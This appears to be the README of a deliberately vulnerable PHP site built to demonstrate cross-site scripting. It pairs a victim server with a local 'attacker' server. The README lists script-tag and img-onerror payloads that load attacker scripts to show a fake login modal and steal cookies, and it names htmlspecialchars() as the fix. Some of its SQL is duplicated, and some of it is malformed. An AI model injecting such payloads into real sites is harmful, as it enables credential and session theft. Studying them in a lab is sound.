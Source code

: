 # simple XSS vulnerable site

## To run
client server
```
php -S localhost:8000
```

attacker server
```
php -S 127.0.0.1:6969
```

## Covered situations
- [x] xss on comments
- [x] opens a loging modal and send user input to attacker server
- [x] sends cookies to attacker server
- [x] url xss
- [x] preventions

## XSS examples
- `simple input script`
- `<script src="http://127.0.0.1:6969/login.js"></script>`
- `<script src="http://127.0.0.1:6969/cookies.js"></script>`
- [notTested] `<img onerror="var s=document.createElement('script');s.src='http://127.0.0.1:6969/login.js';document.body.appendChild(s)"/>`

## Prevention
simply use `htmlspecialchars()`


## DB
create databases
```
CREATE DATABASE `xss`;
CREATE DATABASE `xss_attacker`;
```

create tables for xss
```
CREATE TABLE comments(
  name varchar(255),
  text varchar(255),
  created_at timestamp
);
```

create tables for xss
```
CREATE TABLE comments(
  name varchar(255),
  text varchar(255),
  created_at timestamp
);
```

create tables for attacker
```
CREATE TABLE users(
  name name(255),
  text password(255),
  created_at timestamp
);
CREATE TABLE cookies(
  name client(255),
  text content(255),
  created_at timestamp
);
```